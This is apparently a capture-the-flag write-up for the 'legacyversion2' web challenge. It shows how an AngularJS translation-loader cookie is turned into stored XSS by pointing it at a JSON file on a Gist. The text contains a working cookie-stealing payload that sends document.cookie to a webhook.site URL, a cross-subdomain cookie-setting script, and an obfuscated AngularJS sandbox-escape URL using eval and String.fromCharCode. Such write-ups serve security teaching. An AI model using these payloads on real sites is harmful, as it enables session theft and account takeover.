# legacyversion2
> Want some more legacy after solving legacy1?

## About the Challenge
We got 2 websites, first the admin bot. So we need to input our URL that contains XSS payload in order to obtain the flag in cookie's admin. But we need to use a website from `legacy` chall. So the idea here, we need to redirect the admin to the `legacyversion2` and exploit XSS there.

![preview_admin](images/preview_admin.png)

And another website that using AngularJS. This website has a functionality to change the language from english to deutsch if we press website `German` or `English` button

![preview_website](images/preview_website.png)

## How to Solve?
If we check the source code by pressing `Ctrl + U` there is a custom JS code called `script.js`. Here is the content of the JS file

```javascript
document.cookie="dummy=legacy1";
var app = angular.module('myApp', ['ngCookies', 'pascalprecht.translate']);

app.config(['$translateProvider', function ($translateProvider) {
  $translateProvider.translations('en');
  // configures staticFilesLoader
  $translateProvider.useStaticFilesLoader({
    prefix: '',
    suffix: '.json'
  });
  // load 'en' table on startup
  $translateProvider.preferredLanguage('en');
  $translateProvider.useCookieStorage();
  
}]);
  
app.controller('Ctrl', ['$translate', '$scope', function ($translate, $scope) {
  
  $scope.changeLanguage = function (langKey) {
    $translate.use(langKey);
  };
}]);
```

This code sets up an AngularJS application with translation capabilities, allowing the user to switch between languages and store their language preference in a cookie. Now if we check the cookie on this website, you will see there are 2 cookies called `dummy` and `NG_TRANSLATE_LANG_KEY`

![cookie](images/cookie.png)

And then when I check the HTTP request when changing the language from english to germany, there is a request like this

```
GET /demo/de.json HTTP/1.1
Host: legacyversion2-1.ctf.hackaplaneten.se:8001
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
```

After changing the cookie from en to de, I attempted to manually modify the cookie value to something random, such as dapppp. And here is the website looks like.

![experiment](images/experiment.png)

Looks broken right? And if we check the network tab on my browser, another request was sent with the following format:

```
GET /demo/dapppp.json HTTP/1.1
Host: legacyversion2-1.ctf.hackaplaneten.se:8001
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
```

Soooo, what if we input my website that have a JSON file that contains the payload?

```json
{
    "HEADLINE": "What an awesome module!",
    "PARAGRAPH": "Srsly!",
    "PASSED_AS_TEXT": "Hey there! I'm passed as text value!",
    "PASSED_AS_ATTRIBUTE": "I'm passed as attribute value, cool ha?",
    "PASSED_AS_INTERPOLATION": "Beginners! I'm interpolated!",
    "VARIABLE_REPLACEMENT": "Hi <img src=x onerror=\"var i=new Image(); i.src='https://webhook.site/47c2cdc9-1233-4ac8-8e8b-55efe06aeb2c/?cookie='+btoa(document.cookie);\">",
    "BUTTON_LANG_DE": "German",
    "BUTTON_LANG_EN": "English"
}
```

I put this payload on Github Gist and then I changed the `NG_TRANSLATE_LANG_KEY` cookie value to `https%3A%2F%2Fgist.githubusercontent.com%2Fdaffainfo%2Fd8cbd68a5b429f7423040b10d135dd16%2Fraw%2F876f863f560a6f75038eccf7ad242fefc5cad1dd%2Fa`

And luckily my payload was working

![testing_xss](images/testing_xss.png)

Now we need to redirect the admin from `legacy` to `legacyversion2` website and we need to set the cookie to Gist Github link. But the problem is, how we can set the `document.cookie` between another subdomain?

The answer is "It's still possible". I was told by @dimasmaulana that we can share cookie between subdomain and he gave me this [reference](https://stackoverflow.com/questions/18492576/share-cookies-between-subdomain-and-domain) to read.

Here is the payload I used to solve this chall
```
document.cookie="NG_TRANSLATE_LANG_KEY=https%3A%2F%2Fgist.githubusercontent.com%2Fdaffainfo%2Fd8cbd68a5b429f7423040b10d135dd16%2Fraw%2F876f863f560a6f75038eccf7ad242fefc5cad1dd%2Fa;domain=ctf.hackaplaneten.se";window.location.replace("http://legacyversion2-1.ctf.hackaplaneten.se:8001/");window.location.replace("http://legacyversion2-1.ctf.hackaplaneten.se:8001/demo/");
```

So we set the cookie first on `legacy1` and dont forget to add `;domain=ctf.hackaplaneten.se` because we need to set the cookie to another subdomain. And then redirect admin to `legacyversion2` webiste. And here is the final payload I used to solve this chall

```
http://legacy-1.ctf.hackaplaneten.se:8001/awikwok#!{{$on.constructor('eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,61,34,78,71,95,84,82,65,78,83,76,65,84,69,95,76,65,78,71,95,75,69,89,61,104,116,116,112,115,37,51,65,37,50,70,37,50,70,103,105,115,116,46,103,105,116,104,117,98,117,115,101,114,99,111,110,116,101,110,116,46,99,111,109,37,50,70,100,97,102,102,97,105,110,102,111,37,50,70,100,56,99,98,100,54,56,97,53,98,52,50,57,102,55,52,50,51,48,52,48,98,49,48,100,49,51,53,100,100,49,54,37,50,70,114,97,119,37,50,70,56,55,54,102,56,54,51,102,53,54,48,97,54,102,55,53,48,51,56,101,99,99,102,55,97,100,50,52,50,102,101,102,99,53,99,97,100,49,100,100,37,50,70,97,59,100,111,109,97,105,110,61,99,116,102,46,104,97,99,107,97,112,108,97,110,101,116,101,110,46,115,101,34,59,119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,46,114,101,112,108,97,99,101,40,34,104,116,116,112,58,47,47,108,101,103,97,99,121,118,101,114,115,105,111,110,50,45,49,46,99,116,102,46,104,97,99,107,97,112,108,97,110,101,116,101,110,46,115,101,58,56,48,48,49,47,34,41,59,119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,46,114,101,112,108,97,99,101,40,34,104,116,116,112,58,47,47,108,101,103,97,99,121,118,101,114,115,105,111,110,50,45,49,46,99,116,102,46,104,97,99,107,97,112,108,97,110,101,116,101,110,46,115,101,58,56,48,48,49,47,100,101,109,111,47,34,41,59))')()}}
```

Send the URL to admin bot, and check the webhook

![flag](images/flag.png)

```
SECFEST{L3g@cy_rem3mb0rz_0r_m@yb3_n0t}
```